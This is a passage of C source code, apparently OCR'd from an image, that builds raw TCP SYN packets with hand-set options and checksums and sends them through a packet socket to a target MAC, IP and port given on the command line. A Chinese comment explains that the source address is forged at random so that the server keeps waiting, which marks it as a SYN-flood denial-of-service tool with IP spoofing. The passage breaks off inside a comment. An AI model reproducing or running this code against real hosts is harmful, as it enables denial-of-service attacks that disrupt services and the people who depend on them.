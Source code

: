 ```
		buf[i++] = 0x05;
		buf[i++] = 0xb4;
		// sack
		buf[i++] = 0x01;
		buf[i++] = 0x01;
		buf[i++] = 0x04;
		buf[i++] = 0x02;
		// wsscale = 7
		buf[i++] = 0x01;
		buf[i++] = 0x03;
		buf[i++] = 0x03;
		buf[i++] = 0x07;

		int T = 1;
		while(1) {
			if (T == 0) break;
			T--;
			//源地址伪造，我们随便任意生成个地址，让服务器一直等待下去
			ip->ip_src.s_addr = random();
			//自定义源地址192.168.204.136 => 0xc0a8cc88
			//ip->ip_src.s_addr = 0x8fcca8c0;
			unsigned sum = csum_tcpudp_nofold(ip->ip_src.s_addr, ip->ip_dst.s_addr, sizeof(struct tcphdr)+op_len, IPPROTO_TCP, 0);
			tcp->check = check_sum((unsigned short*)tcp, sizeof(struct tcphdr)+op_len, sum);
			ip->ip_sum = check_sum((unsigned short*)ip, sizeof(struct ip), 0);
			sendto(skfd, buf, pks_len, 0, (struct sockaddr*)target, sizeof(struct sockaddr_ll));
		}
	}

	int main(int argc, char** argv)
	{
		int skfd;
		struct sockaddr_ll target;
		struct hostent *host;
		const int on=1;

		if (argc != 4) {
			printf("Usage:%s dstmac dstip dstport\n", argv[0]);
			exit(1);
		}
		if (strlen(argv[1]) != 17) {
			printf("Usage: dstmac must be xx:xx:xx:xx:xx:xx\n");
			exit(1);
		}

		//将协议字段置为IPPROTO_TCP，来创建一个TCP的原始套接字
		if (0 > (skfd = socket(PF_PACKET, SOCK_RAW, htons(ETH_P_IP)))) {
			perror("Create Error");
			exit(1);
		}

		// mac
		bzero(&target, sizeof(struct sockaddr_ll));

		struct ifreq ifr;
		strncpy(ifr.ifr_name, "eth0", IFNAMSIZ);
		ioctl(skfd, SIOCGIFINDEX, &ifr);
		target.sll_ifindex = ifr.ifr_ifindex;
		/*
		target.sll_family = AF_PACKET;
		target.sll_protocol = ntohs(80);
		target.sll_hatype = ARPHRD_ETHER;
		target.sll_pkttype = PACKET_OTHERHOST;
```